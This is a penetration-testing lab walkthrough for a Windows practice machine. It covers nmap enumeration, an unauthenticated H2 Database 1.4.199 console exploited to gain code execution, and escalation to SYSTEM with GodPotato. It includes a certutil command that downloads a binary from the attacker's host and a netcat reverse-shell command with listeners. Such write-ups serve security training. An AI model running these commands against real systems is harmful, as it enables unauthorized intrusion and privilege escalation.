






I started with a comprehensive TCP scan of all 65,535 ports.
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-15 03:15 UTC
Nmap scan report for 192.168.125.66
Host is up (0.045s latency).
Not shown: 60670 closed tcp ports (reset), 4852 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE
80/tcp open http
135/tcp open msrpc
139/tcp open netbios-ssn
445/tcp open microsoft-ds
5040/tcp open unknown
7680/tcp open pando-pub
8082/tcp open blackice-alerts
9092/tcp open XmlIpcRegSvc
49665/tcp open unknown
49666/tcp open unknown
49667/tcp open unknown
49668/tcp open unknown
49669/tcp open unknown
Nmap done: 1 IP address (1 host up) scanned in 20.25 seconds
Once the open ports were identified, I followed up with a targeted service scan to pinpoint specific versions.
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 80,135,139,445,5040,7680,8082,9092,49665,49666,49667,49668,49669
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-15 03:17 UTC
Nmap scan report for 192.168.125.66
Host is up (0.050s latency).
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-title: H2 Database Engine (redirect)
|_http-server-header: Microsoft-IIS/10.0
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
5040/tcp open unknown
7680/tcp open pando-pub?
8082/tcp open http H2 database http console
|_http-title: H2 Console
9092/tcp open XmlIpcRegSvc?
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49668/tcp open msrpc Microsoft Windows RPC
49669/tcp open msrpc Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at <https://nmap.org/cgi-bin/submit.cgi?new-service> :
SF-Port9092-TCP:V=7.95%I=7%D=1/15%Time=69685C2D%P=x86_64-pc-linux-gnu%r(NU
SF:LL,516,"\\0\\0\\0\\0\\0\\0\\0\\x05\\x009\\x000\\x001\\x001\\x007\\0\\0\\0F\\0R\\0e\\0m\\0o\\
SF:0t\\0e\\0\\x20\\0c\\0o\\0n\\0n\\0e\\0c\\0t\\0i\\0o\\0n\\0s\\0\\x20\\0t\\0o\\0\\x20\\0t\\0h\\0i
SF:\\0s\\0\\x20\\0s\\0e\\0r\\0v\\0e\\0r\\0\\x20\\0a\\0r\\0e\\0\\x20\\0n\\0o\\0t\\0\\x20\\0a\\0l\\0
SF:l\\0o\\0w\\0e\\0d\\0,\\0\\x20\\0s\\0e\\0e\\0\\x20\\0-\\0t\\0c\\0p\\0A\\0l\\0l\\0o\\0w\\0O\\0t\\
SF:0h\\0e\\0r\\0s\\xff\\xff\\xff\\xff\\0\\x01`\\x05\\0\\0\\x024\\0o\\0r\\0g\\0\\.\\0h\\x002\\0\\
SF:.\\0j\\0d\\0b\\0c\\0\\.\\0J\\0d\\0b\\0c\\0S\\0Q\\0L\\0N\\0o\\0n\\0T\\0r\\0a\\0n\\0s\\0i\\0e\\0n
SF:\\0t\\0C\\0o\\0n\\0n\\0e\\0c\\0t\\0i\\0o\\0n\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\0n\\0:\\0\\x20\\0
SF:R\\0e\\0m\\0o\\0t\\0e\\0\\x20\\0c\\0o\\0n\\0n\\0e\\0c\\0t\\0i\\0o\\0n\\0s\\0\\x20\\0t\\0o\\0\\x
SF:20\\0t\\0h\\0i\\0s\\0\\x20\\0s\\0e\\0r\\0v\\0e\\0r\\0\\x20\\0a\\0r\\0e\\0\\x20\\0n\\0o\\0t\\0\\
SF:x20\\0a\\0l\\0l\\0o\\0w\\0e\\0d\\0,\\0\\x20\\0s\\0e\\0e\\0\\x20\\0-\\0t\\0c\\0p\\0A\\0l\\0l\\0
SF:o\\0w\\0O\\0t\\0h\\0e\\0r\\0s\\0\\x20\\0\\[\\x009\\x000\\x001\\x001\\x007\\0-\\x001\\x009\\
SF:x009\\0\\]\\0\\r\\0\\n\\0\\t\\0a\\0t\\0\\x20\\0o\\0r\\0g\\0\\.\\0h\\x002\\0\\.\\0m\\0e\\0s\\0s\\0
SF:a\\0g\\0e\\0\\.\\0D\\0b\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\0n\\0\\.\\0g\\0e\\0t\\0J\\0d\\0b\\0c\\0
SF:S\\0Q\\0L\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\0n\\0\\(\\0D\\0b\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\0n
SF:\\0\\.\\0j\\0a\\0v\\0a\\0:\\x006\\x001\\x007\\0\\)\\0\\r\\0\\n\\0\\t\\0a\\0t\\0\\x20\\0o\\0r\\0g
SF:\\0\\.\\0h\\x002\\0\\.\\0m\\0e\\0s\\0s\\0a\\0g\\0e\\0\\.\\0D\\0b\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o
SF:\\0n\\0\\.\\0g\\0e\\0t\\0J\\0d\\0b\\0c\\0S\\0Q\\0L\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\0n\\0\\(\\0D
SF:\\0b\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\0n\\0\\.\\0j\\0a\\0v\\0a\\0:\\x004\\x002\\x007\\0\\)\\0\\
SF:r\\0\\n\\0\\t\\0a\\0t\\0\\x20\\0o\\0r\\0g\\0\\.\\0h\\x002\\0\\.\\0m\\0e\\0s\\0s\\0a\\0g\\0e\\0\\.
SF:\\0D\\0b\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\0n\\0\\.\\0g\\0e\\0t\\0\\(\\0D\\0b\\0E\\0x\\0c\\0e\\0p
SF:\\0t\\0i\\0o\\0n\\0\\.\\0j\\0a\\0v\\0a\\0:\\x002\\x000\\x005\\0\\)\\0\\r\\0\\n\\0\\t\\0a\\0t\\0\\
SF:x20\\0o\\0r\\0g\\0\\.\\0h\\x002\\0\\.\\0m\\0e\\0s\\0s\\0a\\0g\\0e\\0\\.\\0D\\0b")%r(informi
SF:x,516,"\\0\\0\\0\\0\\0\\0\\0\\x05\\x009\\x000\\x001\\x001\\x007\\0\\0\\0F\\0R\\0e\\0m\\0o\\0
SF:t\\0e\\0\\x20\\0c\\0o\\0n\\0n\\0e\\0c\\0t\\0i\\0o\\0n\\0s\\0\\x20\\0t\\0o\\0\\x20\\0t\\0h\\0i\\
SF:0s\\0\\x20\\0s\\0e\\0r\\0v\\0e\\0r\\0\\x20\\0a\\0r\\0e\\0\\x20\\0n\\0o\\0t\\0\\x20\\0a\\0l\\0l
SF:\\0o\\0w\\0e\\0d\\0,\\0\\x20\\0s\\0e\\0e\\0\\x20\\0-\\0t\\0c\\0p\\0A\\0l\\0l\\0o\\0w\\0O\\0t\\0
SF:h\\0e\\0r\\0s\\xff\\xff\\xff\\xff\\0\\x01`\\x05\\0\\0\\x024\\0o\\0r\\0g\\0\\.\\0h\\x002\\0\\.
SF:\\0j\\0d\\0b\\0c\\0\\.\\0J\\0d\\0b\\0c\\0S\\0Q\\0L\\0N\\0o\\0n\\0T\\0r\\0a\\0n\\0s\\0i\\0e\\0n\\
SF:0t\\0C\\0o\\0n\\0n\\0e\\0c\\0t\\0i\\0o\\0n\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\0n\\0:\\0\\x20\\0R
SF:\\0e\\0m\\0o\\0t\\0e\\0\\x20\\0c\\0o\\0n\\0n\\0e\\0c\\0t\\0i\\0o\\0n\\0s\\0\\x20\\0t\\0o\\0\\x2
SF:0\\0t\\0h\\0i\\0s\\0\\x20\\0s\\0e\\0r\\0v\\0e\\0r\\0\\x20\\0a\\0r\\0e\\0\\x20\\0n\\0o\\0t\\0\\x
SF:20\\0a\\0l\\0l\\0o\\0w\\0e\\0d\\0,\\0\\x20\\0s\\0e\\0e\\0\\x20\\0-\\0t\\0c\\0p\\0A\\0l\\0l\\0o
SF:\\0w\\0O\\0t\\0h\\0e\\0r\\0s\\0\\x20\\0\\[\\x009\\x000\\x001\\x001\\x007\\0-\\x001\\x009\\x
SF:009\\0\\]\\0\\r\\0\\n\\0\\t\\0a\\0t\\0\\x20\\0o\\0r\\0g\\0\\.\\0h\\x002\\0\\.\\0m\\0e\\0s\\0s\\0a
SF:\\0g\\0e\\0\\.\\0D\\0b\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\0n\\0\\.\\0g\\0e\\0t\\0J\\0d\\0b\\0c\\0S
SF:\\0Q\\0L\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\0n\\0\\(\\0D\\0b\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\0n\\
SF:0\\.\\0j\\0a\\0v\\0a\\0:\\x006\\x001\\x007\\0\\)\\0\\r\\0\\n\\0\\t\\0a\\0t\\0\\x20\\0o\\0r\\0g\\
SF:0\\.\\0h\\x002\\0\\.\\0m\\0e\\0s\\0s\\0a\\0g\\0e\\0\\.\\0D\\0b\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\
SF:0n\\0\\.\\0g\\0e\\0t\\0J\\0d\\0b\\0c\\0S\\0Q\\0L\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\0n\\0\\(\\0D\\
SF:0b\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\0n\\0\\.\\0j\\0a\\0v\\0a\\0:\\x004\\x002\\x007\\0\\)\\0\\r
SF:\\0\\n\\0\\t\\0a\\0t\\0\\x20\\0o\\0r\\0g\\0\\.\\0h\\x002\\0\\.\\0m\\0e\\0s\\0s\\0a\\0g\\0e\\0\\.\\
SF:0D\\0b\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\0n\\0\\.\\0g\\0e\\0t\\0\\(\\0D\\0b\\0E\\0x\\0c\\0e\\0p\\
SF:0t\\0i\\0o\\0n\\0\\.\\0j\\0a\\0v\\0a\\0:\\x002\\x000\\x005\\0\\)\\0\\r\\0\\n\\0\\t\\0a\\0t\\0\\x
SF:20\\0o\\0r\\0g\\0\\.\\0h\\x002\\0\\.\\0m\\0e\\0s\\0s\\0a\\0g\\0e\\0\\.\\0D\\0b");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled but not required
| smb2-time:
| date: 2026-01-15T03:19:44
|_ start_date: N/A
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 178.24 seconds
I also performed a UDP scan on the top 10 ports to check for any overlooked common services.
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-15 03:20 UTC
Nmap scan report for 192.168.125.66
Host is up (0.053s latency).
PORT STATE SERVICE
53/udp closed domain
67/udp closed dhcps
123/udp open|filtered ntp
135/udp closed msrpc
137/udp open|filtered netbios-ns
138/udp open|filtered netbios-dgm
161/udp closed snmp
445/udp closed microsoft-ds
631/udp closed ipp
1434/udp open|filtered ms-sql-m
Nmap done: 1 IP address (1 host up) scanned in 6.95 seconds
Spotting SMB, I ran serveral Nmap scripts, specifically smb-enum-shares ,smb-enum-users , and vuln . However, they didn’t yield any leads.
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP --script=smb-enum-shares.nse,smb-enum-users.nse -p 139,445 -sV
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-15 03:21 UTC
Nmap scan report for 192.168.125.66
Host is up (0.050s latency).
PORT STATE SERVICE VERSION
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 14.89 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=vuln -p 139,445
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-15 03:22 UTC
Nmap scan report for 192.168.125.66
Host is up (0.044s latency).
PORT STATE SERVICE VERSION
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_smb-vuln-ms10-054: false
|_samba-vuln-cve-2012-1182: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 33.95 seconds
I attempted Null Authentication, but the server blocked the attempt.
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient -N -L //$IP
session setup failed: NT_STATUS_ACCESS_DENIED
┌──(kali㉿kali)-[~/Desktop]
└─$ smbmap -H $IP
________ ___ ___ _______ ___ ___ __ _______
/" )|" \\ /" || _ "\\ |" \\ /" | /""\\ | __ "\\
(: \\___/ \\ \\ // |(. |_) :) \\ \\ // | / \\ (. |__) :)
\\___ \\ /\\ \\/. ||: \\/ /\\ \\/. | /' /\\ \\ |: ____/
__/ \\ |: \\. |(| _ \\ |: \\. | // __' \\ (| /
/" \\ :) |. \\ /: ||: |_) :)|. \\ /: | / / \\ \\ /|__/ \\
(_______/ |___|\\__/|___|(_______/ |___|\\__/|___|(___/ \\___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
<https://github.com/ShawnDEvans/smbmap>
[*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 0 authenticated session(s)
[!] Something weird happened on (192.168.125.66) Error occurs while reading from remote(104) on line 1015
[*] Closed 1 connections
Similarly, Null Authentication via rpcclient was also restricted.
┌──(kali㉿kali)-[~/Desktop]
└─$ rpcclient -U "" -N $IP
Cannot connect to server. Error was NT_STATUS_ACCESS_DENIED
Moving to the web services, I ran http-enum on the two active HTTP ports: 80 and 8082. They didn’t return anything noteworthy.
└─$ nmap $IP -sV --script=http-enum -p 80
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-15 03:26 UTC
Nmap scan report for 192.168.125.66
Host is up (0.052s latency).
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 129.14 seconds

Upon navigating to port 8082, I found a login interface for an H2 Database console. Most of the connection details were already auto populated, leaving only the password field empty.

I simply clicked “Connect” and gained access to the console, which identified the version as H2 1.4.199

A quick search on Searchsploit for that specific version turned up a relevant exploit.
┌──(kali㉿kali)-[~/Desktop]
└─$ searchsploit H2 Database 1.4.199
-------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title | Path
-------------------------------------------------------------------------------------------------------- ---------------------------------
H2 Database 1.4.199 - JNI Code Execution | java/local/49384.txt
-------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
After verifying the exploit’s functionality, I successfully executed a command that identified the current user as jacko\\tony

To establish a more stable connection, I transferred nc.exe to the C:\\Users\\Public directory.


tonyI successfully triggered a reverse shell; note that while the whoami command initially failed, it worked perfectly once I called its absolute path.
┌──(kali㉿kali)-[~/Desktop]
└─$ rlwrap nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.236] from (UNKNOWN) [192.168.125.66] 50020
Microsoft Windows [Version 10.0.18363.836]
(c) 2019 Microsoft Corporation. All rights reserved.
C:\\Program Files (x86)\\H2\\service>whoami
whoami
'whoami' is not recognized as an internal or external command,
operable program or batch file.
C:\\Program Files (x86)\\H2\\service>C:\\Windows\\System32\\whoami
C:\\Windows\\System32\\whoami
jacko\\tony
Found local.txt
C:\\Users\\tony\\Desktop>type local.txt
type local.txt
7ad...
Current user tony has SeImpersonatePrivilege enabled.
C:\\Users\\tony\\Desktop>C:\\Windows\\System32\\whoami /priv
C:\\Windows\\System32\\whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ========================================= ========
SeShutdownPrivilege Shut down the system Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeUndockPrivilege Remove computer from docking station Disabled
SeImpersonatePrivilege Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
SeTimeZonePrivilege Change the time zone Disabled
Transferred GodPotato binary over to the target machine.
C:\\Users\\tony\\Desktop>C:\\Windows\\System32\\certutil -urlcache -split -f <http://192.168.45.236:443/gp.exe> gp.exe
C:\\Windows\\System32\\certutil -urlcache -split -f <http://192.168.45.236:443/gp.exe> gp.exe
**** Online ****
0000 ...
e000
CertUtil: -URLCache command completed successfully.
I had GodPotato binary connect to my reverse shell.
gp.exe -cmd ".\\nc.exe 192.168.45.236 8082 -e C:\\Windows\\System32\\cmd.exe"
[*] CombaseModule: 0x140735462309888
[*] DispatchTable: 0x140735464652384
[*] UseProtseqFunction: 0x140735464019984
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\\\.\\pipe\\8bb1dd72-4b3b-48c0-b067-7c1588d7f1f3\\pipe\\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00007002-0a04-ffff-1697-e287ebb5db01
[*] DCOM obj OXID: 0xa2444743f0516813
[*] DCOM obj OID: 0xdeecb812a7788494
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 800 Token:0x772 User: NT AUTHORITY\\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\\SYSTEM
[*] process start with pid 1568
systemSuccessfully got the connection.
──(kali㉿kali)-[~/Desktop]
└─$ rlwrap nc -lvnp 8082
listening on [any] 8082 ...
connect to [192.168.45.236] from (UNKNOWN) [192.168.125.66] 50142
Microsoft Windows [Version 10.0.18363.836]
(c) 2019 Microsoft Corporation. All rights reserved.
C:\\Windows\\system32>whoami
whoami
Found proof.txt
C:\\Users\\Administrator\\Desktop>type proof.txt
type proof.txt
6cd...